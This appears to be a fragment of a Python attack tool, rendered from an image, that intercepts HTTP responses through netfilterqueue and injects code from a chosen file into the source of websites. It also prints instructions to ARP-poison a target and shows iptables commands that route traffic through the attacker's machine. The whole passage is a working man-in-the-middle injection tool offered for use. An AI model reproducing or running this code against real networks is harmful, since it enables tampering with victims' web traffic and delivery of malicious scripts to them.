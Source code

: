 ```python
                    content_length = content_length_search.group(1)
                    new_content_length = int(content_length) + len(injection_code)
                    load = load.replace(content_length, str(new_content_length))
            # Exec if load is modified
            if load != scapy_packet[scapy.Raw].load:
                print("[!] Response Injected!")
                new_packet = set_load(scapy_packet, load)
                packet.set_payload(bytes(new_packet))
        # Irrelevant HTML data
        except UnicodeDecodeError:
            pass
    packet.accept()

print("""
                              (                                       
   (          (           )\ )                        )           
   )\         )\ )   (   (()/(       (     (       ( /(      (    
 (((_)   (   (()/(  ))\   /(_)) (    )\   ))\  (   )\()) (   )(   
 )\___   )\   ((_))/((_) (_))   )\ )((_) /((_) )\ (_))/  )\ (()\  
((/ __| ((_)  _| |(_))   |_ _| _(_/(  ! (_))  ((_)| |_  ((_) ((_) 
 | (__ / _ \/ _` |/ -_)   | | | ' \))| |/ -_)/ _| |  _|/ _ \| '_| 
  \___|\___/\__,_|\___|  |___||_||_|_/ |\___|\__|  \__|\___/|_|   
                                   |__/                           
""")

print("[-] Specify a file to inject code from to poison any HTTP websites source.\n\n")
print("[NOTE:] To sniff a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
print("""
[!] Run the following commands as root before using this program to setup IPTABLE rules.

1. iptables -I OUTPUT -j NFQUEUE --queue-num 0
2. iptables -I INPUT -j NFQUEUE --queue-num 0
3. echo 1 > /proc/sys/net/ipv4/ip_forward

""")

try:
    code = get_arguments()
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(0, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n\n\n Exiting Program!")
```

